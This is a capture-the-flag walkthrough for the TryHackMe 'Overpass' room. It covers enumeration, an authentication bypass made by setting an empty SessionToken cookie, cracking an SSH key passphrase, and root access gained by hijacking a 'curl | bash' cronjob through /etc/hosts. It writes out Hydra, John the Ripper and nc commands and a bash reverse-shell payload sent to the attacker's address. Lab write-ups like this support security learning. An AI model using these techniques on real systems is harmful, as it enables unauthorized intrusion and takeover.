



Overpass 1 Writeup
To find the machine, go here:
https://tryhackme.com/room/overpassEnumeration:• I started by doing an Nmap Scan using the code:
◇
nmap -sC -sV -Pn 10.10.74.191
• The Nmap scan returned only ports 22 and 80 open:
◇ 
• I then looked at the website and saw that they had a “downloads” page and an "aboutus" page linked to the main page.
◇ These pages looked like they were a pretty solid indicated that other pages could exist, so I ran a quick FeroxBuster scan (which returned a ton of information) using the command:
▪
feroxbuster -u http://10.10.74.191 --smart -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -x html
•The important information returned that caught my eye immediately were the /admin page and the /login.js page
Exploitation:• After going to the /admin page, I saw the login and after doing a quick intercept with BurpSuite, I was able to try Hydra on the login using the command:
◇
hydra -l Ninja -P /usr/share/wordlists/rockyou.txt 10.10.74.191 http-post-form "/admin:username=^USER^&password=^PASS^:F=Incorrect" -V
▪ Note: I got the “Ninja” Username from the “aboutus” page, as I remembered seeing a list of some devs on there.
◇ After running this hydra for a while, I got nowhere and remembered that the original machine information stated “OWASP Top 10”. This led me to believe it was not bruteforcing, so I took it in another direction.
• I took another look at the “login.js” page, and near the bottom of the page, I saw the part of the function that said:
◇
Cookies.set("SessionToken",statusOrCookie) ▪ For more information on what this .js function is doing, look at the link:
-
https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html#cookies• Using BurpSuite, I was able to add in the following command into my Burp request, and then send the request 3 times:
◇
Cookies.set("SessionToken","")• This last request resulted in the following page appearing:
◇ 
• From there, we now can copy and paste that ssh key into a text file and save it as id_rsa
◇ We already know from the above site that the username is likely James, but if we try to log in, we are asked for the key's password
◇ To crack this, we can use the SSH2John software from GitHub using the following command:
▪
ssh2john id_rsa > id_rsa.hash
◇ Then, we can run JohnTheRipper on this new file using the command:
▪
john id_rsa.hash --wordlist=~/Documents/Wordlists/rockyou.txt
• After running the previous command, we get the ssh file password
• Once we are in, we are able to grab the user.txt flag!
PrivEsc:• To get the root flag, we need to do some privesc.
◇ I first tried running the following command to find any files that ran with root perms that I could use GTFO Bins to leverage:
▪
find / -perm /4000 2>/dev/null
▪ After some searching through that output, nothing stuck out or worked.
◇ I moved on and spun up my server on my own system using python3's “HTTP.Server” module and then used wget on the target system to download linPEAS on it
◇ I ran the linPEAS and it returned one potential privesc vector with a cronjob that runs as root:
▪ 
▪ This is the cron job that was found:
-
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
- This could also be found by running the command:
→
◇ Remembering back to the To Do List in James' home directory, I remembered him having something in there about seeing how the builds were downloaded and built
▪ If we want to get the system to curl our file instead of the file that it is getting, we need to redirect the traffic to us by changing the IP in the /etc/hosts file
◇ After changing the IP to our IP Address for the “overpass.thm” in the /etc/hosts file, we need to create the appropriate src directory and file for the system to grab from us. This can be done with the following commands:
▪
sudo mkdir -p /downloads/src/
echo "bash -i >& /dev/tcp/[Your IP HERE]/[YOUR PORT HERE] 0>&1" > /downloads/src/buildscript.sh
python3 -m http.server 80
- Then, open another terminal tab and run nc by typing:
▪
nc -nlvp [The port number you chose]
◇ After about a minute or so, you shoud then get a root shell on the target system where you can then grab the root flag!
Other Info:I hope you enjoyed this walkthrough! Check out my other ones here and let me know what you think!
https://github.com/F81nj3ct0r/TryHackMe_WriteupsYou can reach me by email at f8injector@outlook.com
Happy Hacking!